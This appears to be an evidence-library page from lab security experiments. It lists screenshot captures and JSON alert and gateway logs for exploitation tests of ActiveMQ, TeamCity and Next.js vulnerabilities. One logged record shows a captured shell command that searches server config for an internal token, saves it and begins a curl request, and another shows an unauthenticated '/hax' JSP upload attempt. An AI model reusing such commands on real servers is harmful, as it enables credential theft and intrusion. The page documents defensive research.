Screenshots / source pages / original records
Evidence library
Browse 45 captures from the seven reports. Filter by case or evidence set, then open the original PDF page.
45 captures









































No captures match this search. Try another case or clear the search.
↗
Original archive records
Exploit signature detected with action allowed
{
"timestamp": "2026-10-16T01:10:33.361550+0000",
"flow_id": 425661009893153,
"event_type": "alert",
"src_ip": "172.29.0.6",
"src_port": 60984,
"dest_ip": "172.29.0.5",
"dest_port": 61616,
"proto": "TCP",
"pkt_src": "wire/pcap",
"alert": {
"action": "allowed",
"gid": 1,
"signature_id": 2049045,
"rev": 2,
"signature": "ET EXPLOIT Apache ActiveMQ Remote Code Execution Attempt (CVE-2023-46604)",
"category": "Attempted Administrator Privilege Gain",
"severity": 1,
"metadata": {
"attack_target": [
"Server"
],
"confidence": [
"Medium"
],
"created_at": [
"2023_11_02"
],
"cve": [
"CVE_2023_46604"
],
"deployment": [
"Perimeter"
],
"mitre_tactic_id": [
"TA0001"
],
"mitre_tactic_name": [
"Initial_Access"
],
"mitre_technique_id": [
"T1190"
],
"mitre_technique_name": [
"Exploit_Public_Facing_Application"
],
"performance_impact": [
"Low"
],
"signature_severity": [
"Critical"
],
"tag": [
"CISA_KEV"
],
"updated_at": [
"2023_11_29"
]
}
},
"direction": "to_server",
"flow": {
"pkts_toserver": 3,
"pkts_toclient": 1,
"bytes_toserver": 280,
"bytes_toclient": 60,
"start": "2026-10-16T01:10:33.361250+0000",
"src_ip": "172.29.0.6",
"dest_ip": "172.29.0.5",
"src_port": 60984,
"dest_port": 61616
}
}Experiment: see original event
Exact JSON record ↗ · Full original archive ↗
Record SHA-256: 040eadfbd9cdae6efa30f54aff9ff1cc643becd431cd975ca6d8ad81022ae3d3
Exact JSON record ↗ · Full original archive ↗
Record SHA-256: 040eadfbd9cdae6efa30f54aff9ff1cc643becd431cd975ca6d8ad81022ae3d3
Unexpected Java child-process alert
{
"timestamp": "2026-10-16T01:14:18.351+0000",
"rule": {
"level": 12,
"description": "SCL Java service spawned an unexpected utility process",
"id": "110151",
"firedtimes": 1,
"mail": true,
"groups": [
"security_control_limits",
"runtime_monitoring",
"process_anomaly",
"retrospective_hypothesis"
]
},
"agent": {
"id": "002",
"name": "scl-telemetry-v2",
"ip": "172.23.0.5"
},
"manager": {
"name": "wazuh.manager"
},
"id": "1792113258.9898",
"full_log": "{\"timestamp\":\"2026-10-16T01:14:17.513932+00:00\",\"experiment_id\":\"CVE-2023-46604-mode-b-20261016T011303Z\",\"security_mode\":\"mode-b\",\"component\":\"runtime-monitor\",\"event_type\":\"unexpected_child_process\",\"pid\":257,\"parent_pid\":43,\"command\":\"sh\",\"cmdline\":\"/bin/sh -c touch /tmp/SCL-CVE-2023-46604-PROOF; secret_source=$(grep -R -l 'SCL-INTERNAL-TOKEN-' /opt/activemq/conf 2>/dev/null | head -n 1); printf '%s' \\\"$secret_source\\\" > /tmp/SCL-CVE-2023-46604-secret-source.txt; token=$(grep -E -o 'SCL-INTERNAL-TOKEN-[A-Z0-9]+' \\\"$secret_source\\\" 2>/dev/null | head -n 1); printf '%s' \\\"$token\\\" > /tmp/SCL-CVE-2023-46604-discovered-token.txt; for class in recognized unrecognized; do document=/tmp/SCL-CVE-2023-46604-${class}.json; if curl -fsS -H \\\"Authorization: B\"}",
"decoder": {
"name": "json"
},
"data": {
"timestamp": "2026-10-16T01:14:17.513932+00:00",
"experiment_id": "CVE-2023-46604-mode-b-20261016T011303Z",
"security_mode": "mode-b",
"component": "runtime-monitor",
"event_type": "unexpected_child_process",
"pid": "257",
"parent_pid": "43",
"command": "sh",
"cmdline": "/bin/sh -c touch /tmp/SCL-CVE-2023-46604-PROOF; secret_source=$(grep -R -l 'SCL-INTERNAL-TOKEN-' /opt/activemq/conf 2>/dev/null | head -n 1); printf '%s' \"$secret_source\" > /tmp/SCL-CVE-2023-46604-secret-source.txt; token=$(grep -E -o 'SCL-INTERNAL-TOKEN-[A-Z0-9]+' \"$secret_source\" 2>/dev/null | head -n 1); printf '%s' \"$token\" > /tmp/SCL-CVE-2023-46604-discovered-token.txt; for class in recognized unrecognized; do document=/tmp/SCL-CVE-2023-46604-${class}.json; if curl -fsS -H \"Authorization: B"
},
"location": "/scl-logs/runtime.jsonl"
}Experiment: CVE-2023-46604-mode-b-20261016T011303Z
Exact JSON record ↗ · Full original archive ↗
Record SHA-256: 27af248ea081944ba3cd84a6b8dc74e2de2927b57e983d25ce1ba2d813656487
Exact JSON record ↗ · Full original archive ↗
Record SHA-256: 27af248ea081944ba3cd84a6b8dc74e2de2927b57e983d25ce1ba2d813656487
Unauthenticated unsafe-method guard
{
"timestamp": "2026-10-16T14:17:08.677321+00:00",
"experiment_id": "CVE-2024-27198-mode-b-20261016T141537Z",
"security_mode": "mode-b",
"component": "dlp-gateway",
"role": "response",
"request_id": "CVE-2024-27198-mode-b-20261016T141537Z-teamcity-external-create",
"verdict": "block",
"reason": "unauthenticated_unsafe_method",
"policy": "authenticated_state_change",
"allow_prefixes": [
"/loginSubmit.html"
],
"method": "POST",
"path": "/hax",
"query_keys": [
"jsp"
],
"authorization_present": false,
"cookie_present": false
}Experiment: CVE-2024-27198-mode-b-20261016T141537Z
Exact JSON record ↗ · Full original archive ↗
Record SHA-256: 6ad44d0267ee4337bb721d76d2969de84a4fef0539fa357b0a12b7b5f1ebd3b9
Exact JSON record ↗ · Full original archive ↗
Record SHA-256: 6ad44d0267ee4337bb721d76d2969de84a4fef0539fa357b0a12b7b5f1ebd3b9
Protected response allowed without a cookie
{
"timestamp": "2026-10-16T01:26:12.593100+00:00",
"experiment_id": "CVE-2025-29927-mode-a-20261016T012448Z",
"security_mode": "mode-a",
"component": "dlp-gateway",
"role": "response",
"request_id": "CVE-2025-29927-mode-a-20261016T012448Z-nextjs-exploit",
"verdict": "allow",
"reason": "no_blocking_match",
"destination": "case-target:3000",
"request_matches": [],
"response_matches": [],
"request_bytes": 0,
"response_bytes": 8835,
"status": 200,
"method": "GET",
"path": "/",
"query_keys": [],
"authorization_present": false,
"cookie_present": false
}Experiment: CVE-2025-29927-mode-a-20261016T012448Z
Exact JSON record ↗ · Full original archive ↗
Record SHA-256: 5a09cf96703fd859e2d41fd4043ec7d44e13a898063cf9ec5c7bedb52c01122c
Exact JSON record ↗ · Full original archive ↗
Record SHA-256: 5a09cf96703fd859e2d41fd4043ec7d44e13a898063cf9ec5c7bedb52c01122c
Trusted session decision reported in Wazuh
{
"timestamp": "2026-10-16T01:35:06.886+0000",
"rule": {
"level": 6,
"description": "SCL trusted policy denied protected-route access without a valid session",
"id": "110161",
"firedtimes": 1,
"mail": false,
"groups": [
"security_control_limits",
"authorization",
"access_denied"
]
},
"agent": {
"id": "002",
"name": "scl-telemetry-v2",
"ip": "172.23.0.5"
},
"manager": {
"name": "wazuh.manager"
},
"id": "1792114506.45130",
"full_log": "{\"timestamp\":\"2026-10-16T01:35:06.359409+00:00\",\"experiment_id\":\"CVE-2025-29927-mode-b-20261016T013356Z\",\"security_mode\":\"mode-b\",\"component\":\"authorization\",\"trusted_decision_source\":true,\"event_type\":\"authorization_decision\",\"route\":\"/\",\"decision\":\"deny\",\"session_state\":\"missing\",\"request_id\":\"missing\",\"enforcement\":\"redirect\"}",
"decoder": {
"name": "json"
},
"data": {
"timestamp": "2026-10-16T01:35:06.359409+00:00",
"experiment_id": "CVE-2025-29927-mode-b-20261016T013356Z",
"security_mode": "mode-b",
"component": "authorization",
"trusted_decision_source": "true",
"event_type": "authorization_decision",
"route": "/",
"decision": "deny",
"session_state": "missing",
"request_id": "missing",
"enforcement": "redirect"
},
"location": "/scl-logs/authorization.jsonl"
}Experiment: CVE-2025-29927-mode-b-20261016T013356Z
Exact JSON record ↗ · Full original archive ↗
Record SHA-256: ae8b312206a46a79880334cb2a8d94cc82763f5e5e0dba40c924bfac025f3bad
Exact JSON record ↗ · Full original archive ↗
Record SHA-256: ae8b312206a46a79880334cb2a8d94cc82763f5e5e0dba40c924bfac025f3bad